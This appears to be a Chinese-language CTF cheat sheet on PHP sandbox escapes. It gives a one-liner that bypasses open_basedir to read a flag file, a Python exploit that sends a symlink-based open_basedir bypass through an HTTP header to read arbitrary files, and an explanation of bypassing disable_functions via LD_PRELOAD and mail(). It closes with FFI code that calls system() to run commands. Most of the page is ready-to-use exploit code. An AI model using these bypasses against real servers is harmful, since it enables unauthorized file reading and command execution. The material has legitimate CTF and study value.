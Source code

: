 # PHP中的重要函数

## open_basedir绕过

```php
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

分析：https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/


symlink 法

```python
def exploit(f):
    #print f
    payload="""
error_reporting(E_ALL);
chdir("/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3/");
mkdir('./{0}/b/c/d/e/f/g/',0777,TRUE);
symlink('./{0}/b/c/d/e/f/g','{1}');
ini_set('open_basedir','/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3:{2}/');
symlink('{1}/../../../../../../','{2}');
unlink('{1}');
echo base64_encode(file_get_contents('{2}{3}'));
""".format(randomstr(),randomstr(),randomstr(),f)
    poc= payload.replace("\n",'')
    #print poc
    headers = {
        "eki":poc
    }
    req=requests.get(url,headers=headers)
    print req.text
```

### 扩展资料

https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/


## Bypass ``disabled_function``

### LD_PRELOAD

原理：

PHP 的 ``putenv()``函数，设定 ``LD_PRELOAD(环境变量)`` 为 ``hack.so``。

利用 PHP 的 ``mail()``函数，``mail()`` 内部启动新进程 ``/usr/sbin/sendmail``，因为上一步 ``LD_PRELOAD``的作用，``sendmail`` 调用的``void()``函数 被优先级更好的 ``hack.so`` 中的同名 ``getuid()``函数所劫持。

#### Exp

https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD

### php 7.4 FFI


根据官方文档``FFI``是可以直接调用系统函数的

比如这样

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("id > /tmp/eki");
echo file_get_contents("/tmp/eki");
@unlink("/tmp/eki");
```

**但是``FFI API``仅能适用于预加载文件**

## require_once

php源码分析 require_once 绕过不能重复包含文件的限制：https://www.anquanke.com/post/id/213235

## file_get_content

关于file_put_contents的一些小测试: https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/